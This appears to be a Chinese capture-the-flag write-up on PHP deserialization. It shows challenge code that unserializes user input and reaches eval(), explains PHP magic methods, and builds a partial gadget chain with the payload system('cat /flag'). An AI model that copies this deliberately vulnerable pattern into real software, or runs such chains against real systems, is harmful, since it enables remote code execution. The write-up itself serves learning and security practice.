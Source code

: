 ```php

class springboard
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}
```

先来了解一些魔术方法：

| __construct()    | 具有构造函数的类会在每次创建新对象时先调用此方法             |
| ---------------- | ------------------------------------------------------------ |
| **__destruct()** | 某个对象的所有引用都被删除或者当对象被显式销毁时执行         |
| **__get()**      | 读取不可访问<font color='red'>属性的值</font>,`__get`会被自动调用 |
| **__call()**     | 在对象中调用一个不可访问<font color='red'>方法</font>时,`__call`会自动被调用 |
| **__wakeup()**   | `unserialize()` 会检查是否存在一个 `__wakeup()`方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。 |

分析上述代码，得知最终入口为evil对象调用的eval函数，从而构造传播链

> entrance-->springboard-->evil

可以自行给springboard类增添构造函数

```php
class springboard
{
    public $middle;
	function __construct($x)
	{
		$this->middle = $x;
	}
    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}
$e = new evil("system('cat /flag');");
$s = new springboard($e);
```